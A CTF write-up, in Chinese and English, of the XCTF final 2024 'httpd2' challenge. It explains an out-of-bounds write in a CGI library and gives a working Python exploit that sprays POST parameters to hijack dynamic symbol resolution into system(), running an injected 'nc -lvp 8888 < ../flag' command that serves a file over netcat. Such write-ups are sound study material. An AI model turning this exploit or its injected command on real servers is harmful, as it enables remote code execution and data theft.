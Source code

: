 ```yaml
---
data: 2024-07-20 16:31
challenge: httpd2
tags:
  - dlresolve
  - spary
---
```


> [!info]
> 题目本身不难，对于线下赛我认为工作量也是很合适的。针对动态链接的攻击非常有趣，是一道好题。
>
> 但是比赛期间我没有解出来（0 解），原因如下：
>
> 1. 题目存在两处漏洞，都是越界写。但是越界 buffer 的附近没有任何数据
> 2. 利用涉及喷射 - 命中的思路，线下赛期间感觉思路比较混乱
> 3. ~~此外就是被本地出了远程爆破半天出不来的 solo 题和虚拟机逆向题折磨得神志不清~~

## Analysis

cgi-bin 目录下一共给了三个文件，其中漏洞只有可能存在于 `libctfc.so`（因为另外两个都过于直白了），其中有用的洞是 `genCookie` 函数里的越界写 0：

```c
v4 = strlen(passwd);
sub_135A(dest, 1024LL, passwd, v4 + 1);
dest[v4] = 0;
```

<details>
<summary> 调试 </summary>

这种题目的调试我一般使用 gdbserver，直接在 docker 里面安装，替换 main.cgi 内容为 `gdbserver 0.0.0.0:1234 ./real.cgi` 即可调试，相关脚本见 [initgdb.sh](./bin/cgi-bin/initgdb.sh)。

</details>

接下来进入调试

## Exploitation

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

# cli_script()
# set_remote_libc("libc.so.6")
#
# io: tube = gift.io
# elf: ELF = gift.elf
# libc: ELF = gift.libc

context.log_level = "info"
context.arch = "amd64"
context.terminal = ["tmux", "sp", "-h", "-l", "120"]

rl = lambda a=False: io.recvline(a)
ru = lambda a, b=True: io.recvuntil(a, b)
rn = lambda x: io.recvn(x)
s = lambda x: io.send(x)
sl = lambda x: io.sendline(x)
sa = lambda a, b: io.sendafter(a, b)
sla = lambda a, b: io.sendlineafter(a, b)
ia = lambda: io.interactive()
dbg = lambda text=None: gdb.attach(io, text)
i2b = lambda c: str(c).encode()
u32_ex = lambda data: u32(data.ljust(4, b"\x00"))
u64_ex = lambda data: u64(data.ljust(8, b"\x00"))

io = remote("127.0.0.1", 80)

while True:
    try:

        def get_payload(name, passwd, spary_payload):
            payload = b"POST /cgi-bin/main.cgi HTTP/1.1\r\n"
            payload += b"Host: localhost\r\n"
            payload += b"Content-Type: application/x-www-form-urlencoded\r\n"
            payload += b"Connection: close\r\n"

            post_data = b"username=" + name + b"&passwd=" + passwd + spary_payload
            payload += f"Content-Length: {len(post_data)}\r\n".encode()
            payload += b"\r\n"
            payload += post_data
            payload += b"\r\n"
            return payload

        spary_payload = b""
        for i in range(0xC0 + 0x10, 0x5000, 8):
            if ((i - 8) & 0xFFF) == 0xEA0:
                spary_payload += b"&" + b"a" * 0x69 + b"%00system%00"
            else:
                spary_payload += b"&x"

        distance = 0x125F48
        payload = get_payload(
            b"nc -lvp 8888 < ../flag", b"a" * (distance + 2), spary_payload
        )
        s(payload)

        data = rl()
        print(data)
        assert b"500" not in data()

        ia()
    except:
        io.close()
        io = remote("127.0.0.1", 80)


# buf = 0x7ffff7e96300
# target_strtab = 0x7ffff7fbc248
```

---

## References

\[1\] [Official WP - xctf final 2024 httpd2 writeup](https://forum.butian.net/share/3123) . _[noir](https://forum.butian.net/people/32623)_

